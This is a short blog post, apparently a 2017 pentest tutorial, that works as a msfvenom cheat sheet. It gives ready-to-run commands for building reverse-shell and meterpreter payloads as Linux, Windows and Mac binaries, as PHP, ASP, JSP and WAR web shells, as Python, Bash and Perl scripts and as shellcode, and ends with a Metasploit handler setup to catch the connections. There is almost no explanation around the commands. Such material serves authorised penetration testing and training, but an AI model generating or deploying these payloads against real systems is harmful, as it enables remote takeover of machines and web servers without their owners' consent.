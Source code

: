 +++
title = "Generating Payloads with MsfVenom"
description = "How to generate Payloads"
tags = [ "Payload", "Generating", "Pentest", "MsfVenom" ]
date = "2017-06-16"
location = "127.0.0.1"
categories = [
  "Pentest",
  "Tutorials",
  "Metasploit",
  "MsfVenom"
]
slug = "Payload-Gen"
type = "post"
+++

LIST PAYLOADS


![MSFVENLP](/img/Metasploit/MsfVenom/MSFLP.png)


BINARIES

#### Linux ####

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```


#### Windows ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```


#### Mac ####

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```


WEB PAYLOADS

#### PHP ####

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```


#### ASP ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```


#### JSP ####

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```


#### WAR #### 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```


SCRIPTING PAYLOADS

#### Python ####

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```


#### Bash ####

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```


#### Perl ####

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```


SHELLCODE -

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

-- ADD IMAGE HERE ---

#### Linux Based Shellcode ####

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```


#### Windows Based Shellcode ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```


#### Mac Based Shellcode ####

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```


HANDLERS

Metasploit handlers are best to use for meterpreter or most reverse shells.
Bellow is the code to set one up using metasploit.


```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

--- ADD IMAGE HERE OF HANDLER + RECEIVE -----



